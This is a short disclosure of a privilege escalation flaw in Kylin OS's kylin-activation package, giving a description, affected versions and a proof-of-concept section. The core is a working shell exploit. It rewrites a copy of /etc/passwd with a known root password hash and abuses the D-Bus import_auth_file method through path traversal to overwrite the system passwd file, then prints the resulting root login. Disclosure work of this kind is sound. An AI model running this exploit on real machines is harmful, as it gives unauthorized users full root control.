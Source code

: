 # Kylin OS privilege escalation vulnerability

Author: Set3r.Pan（8691003@qq.com）\
Unit: Kylin Software Co., Ltd.（https://www.kylinos.cn/）
## report
### Describe

The kylin-activation package is a component used by Kylin OS for authorization verification and activation. The software package does not strictly restrict the legality of the import file operation, so the directory where the system configuration file is located is imported into an illegal configuration file, resulting in the elevation of local privileges of ordinary users.


### Hazard level
High
### Affected version
- Desktop：kylin-activation < 1.3.11-23
- Server：kylin-activation < 1.30.10-5.p23
### POC&&EXP
ISO Download:\
https://distro-images.kylinos.cn:8802/web_pungi/download/share/HXDYtGjZm3daA4UvOTLkiPl1nB9ErM0c/

exp.sh
```
echo "[*] Trying to overwrite passwd file ..."
cp /etc/passwd /tmp/passwd
sed -i 's/root:x:0:0:root/root:\$1\$nrDGqnHa\$EhGl0D2EBPmnQTC2hGvgl.:0:0:root/g' /tmp/passwd
dbus-send --system --dest=org.freedesktop.activation /org/freedesktop/activation org.freedesktop.activation.interface.import_auth_file string:../tmp/passwd
sleep 1
dbus-send --system --dest=org.freedesktop.activation /org/freedesktop/activation org.freedesktop.activation.interface.import_auth_file string:../tmp/passwd
sleep 1
echo '[*] Try login with root / 123qwe!@#QWE'
```
### Vuln details
org.freedesktop.activation::import_auth_file receive files

![1](https://raw.githubusercontent.com/i900008/vulndb/main/1.png)

If the file exists, the service copies the file to /etc, causing arbitrary files to be written in the /etc directory

![1](https://raw.githubusercontent.com/i900008/vulndb/main/2.png)
